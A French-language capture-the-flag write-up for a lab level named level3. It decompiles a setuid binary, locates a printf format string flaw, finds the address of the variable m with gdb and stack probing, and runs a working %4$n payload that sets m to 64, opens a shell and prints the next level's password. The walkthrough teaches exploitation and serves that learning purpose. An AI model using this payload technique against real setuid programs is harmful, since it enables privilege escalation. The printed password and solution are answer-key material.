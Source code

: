 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2022(level3) gid=2022(level3) groups=2022(level3),100(users)
/home/user/level3
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level3 :

```
$ ./level3

```

Il ne répond qu'avec un input :

```
$ ./level3
da
da
```

J'utilise `Dogbolt` afin de décompiler le binaire du level 3.

### Ghidra

```c
void v(void) {
  char buffer[520];
  
  fgets(buffer,0x200,stdin);
  printf(buffer);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void) {
  v();
  return;
}
```

### Hexray

```c
int v() {
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```

Ici, il semble être question de modifier la valeur de `m` dans le code afin de passer le `if` et ouvrir un shell.

Je note que `fgets()` n'est pas la source de vulnérabilité car c'est une version protégée de `gets()` mais que `printf()`, qui lit notre input et l'imprime, présente une vulnérabilité possible connue sous le nom de [Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack).

Il s'agit ici d'utiliser le flag de conversion `%n` :

```
Parameters 	Output 	                                        Passed as
...         ...                                             ...
%n 	        Writes the number of characters into a pointer 	Reference
```

Il me faut donc, dans l'espace qui m'est fourni par le buffer et la limite de `fgets()`, écrire à l'adresse de la variable `m`.

Pour cela, je dois composer un payload infecté composé de :

- l'adresse de la variable `m` dans la fonction `v()`
- 64 caractères à écrire que %n va utiliser pour écrire le pointeur
- puis l'appel à `%n`

Etant donné que nous ne passons aucun argument à `printf`, ce dernier va lire la stack comme argument. Pour trouver "où" se trouve le pointeur de la variable `m` dans la stack pour `printf` lorsque je lui passe l'adresse de `m`, j'utilise l'astuce suivante :

```
$ python -c 'print("a %x %x %x %x %x %x")' | ./level3
a 200 b7fd1ac0 b7ff37d0 78252061 20782520 25207825
                               ^

$ python -c 'print("b %x %x %x %x %x %x")' | ./level3
b 200 b7fd1ac0 b7ff37d0 78252062 20782520 25207825
                               ^
```

J'identifie que le 4eime argument dans l'appel de `printf` représente le 'premier' dans la string passé à `printf`.

Cela m'indique que l'appel à `%n` nécessitera un 'shift' de 4 (écrit: `%4$n`) pour signifier que les 64 bytes écrit avant cet appel doivent être stocké dans le "4eime" argument, qui sera en fait l'adresse de la variable 'm', j'illustre ce propos avec le payload suivant :

```python
python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*60 + "%4$n"
```

Note: vu que je fais un shift de 4 bytes, je n'ai donc que 60 à écrire avant pour atteindre le total de 64 bytes, et ce sera la valeur écrite donc dans le "4eime" (1er dans printf) argument, qui pointe donc sur : `0x0804988c`

Cette adresse est trouvée en utilisant `gdb` :

```
(gdb) disas v
Dump of assembler code for function v:
...
   0x080484d5 <+49>:    call   0x8048390 <printf@plt> <- on observe le printf
   0x080484da <+54>:    mov    0x804988c,%eax <- met l'adresse de m dans %eax
   0x080484df <+59>:    cmp    $0x40,%eax <- compare %eax a 0x40 -> 64
...
```

J'exécute mon payload :

```
$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*60 + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
�������������������������������������������������������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```